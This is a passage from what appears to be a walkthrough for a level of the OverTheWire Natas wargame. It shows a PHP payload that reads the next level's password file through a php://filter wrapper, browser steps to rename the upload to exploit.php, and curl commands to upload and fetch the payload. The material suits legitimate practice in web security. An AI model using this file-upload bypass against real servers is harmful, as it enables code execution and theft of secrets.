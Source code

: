**Alt 3 — php://filter base64 (if direct read garbled)**

```
<?php echo file_get_contents('php://filter/read=convert.base64-encode/resource=/etc/natas_webpass/natas12'); ?>
```

---

## Check file size (must be < 1000 bytes)

```
wc -c payload.php
```

---

## Browser (DevTools) steps

1. Open the upload page.
2. Right-click → Inspect → Elements.
3. Find the hidden input line like:

```
<input type="hidden" name="filename" value="something.jpg" />
```

4. Double-click the `value` and replace with:

```
exploit.php
```

5. Choose `payload.php` in the file chooser and submit the form.
6. Click/open the returned `upload/<random>.php` URL to see the password.

---

## Curl (copy-paste ready)

**Upload** (replace URL with your level URL):

```
curl -i -s -k -X POST -F "filename=exploit.php" -F "uploadedfile=@payload.php" "http://natas11.natas.labs.overthewire.org/index.php"
```

**Fetch uploaded file** (use the link returned by the upload step):

```
curl "http://natas11.natas.labs.overthewire.org/upload/abcd1234.php"
```

---

## Troubleshooting quick table
